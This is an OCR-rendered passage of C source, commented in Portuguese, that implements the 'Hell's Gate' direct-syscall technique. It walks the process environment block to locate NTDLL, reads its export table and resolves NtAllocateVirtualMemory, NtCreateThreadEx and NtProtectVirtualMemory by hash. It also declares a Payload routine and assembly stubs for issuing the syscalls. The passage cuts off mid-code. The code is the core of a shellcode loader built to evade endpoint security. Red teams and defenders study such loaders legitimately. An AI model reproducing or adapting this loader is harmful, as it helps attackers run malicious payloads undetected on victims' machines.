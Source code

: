 ```c
} VX_TABLE, * PVX_TABLE;

/*--------------------------------------------------------------------
  Protótipo das Funções
--------------------------------------------------------------------*/
PTEB RtlGetThreadEnvironmentBlock();
BOOL GetImageExportDirectory(
	_In_ PVOID                     pModuleBase,
	_Out_ PIMAGE_EXPORT_DIRECTORY* ppImageExportDirectory
);
BOOL GetVxTableEntry(
	_In_ PVOID pModuleBase,
	_In_ PIMAGE_EXPORT_DIRECTORY pImageExportDirectory,
	_In_ PVX_TABLE_ENTRY pVxTableEntry
);
BOOL Payload(
	_In_ PVX_TABLE pVxTable
);
PVOID VxMoveMemory(
	_Inout_ PVOID dest,
	_In_    const PVOID src,
	_In_    SIZE_T len
);

/*--------------------------------------------------------------------
  Funções Externas -> HellsGate.asm
--------------------------------------------------------------------*/
extern VOID HellsGate(WORD wSystemCall);
extern HellDescent();

INT wmain() {

	PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
	PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
	if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
		return 0x1;

	// Pega a NTDLL
	PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->LoaderData->InMemoryOrderModuleList.Flink->Flink - 0x10);

	// Acessa a EAT dentro da NTDLL
	PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
	if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
		return 0x01;

	VX_TABLE Table = { 0 };
	
	Table.NtAllocateVirtualMemory.dwHash = 0xf5bd373480a6b89b;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtAllocateVirtualMemory))
		return 0x1;

	Table.NtCreateThreadEx.dwHash = 0x64dc7db288c5015f;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtCreateThreadEx))
		return 0x1;

	Table.NtProtectVirtualMemory.dwHash = 0x858bcb1046fb6a37;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtProtectVirtualMemory))
		return 0x1;

```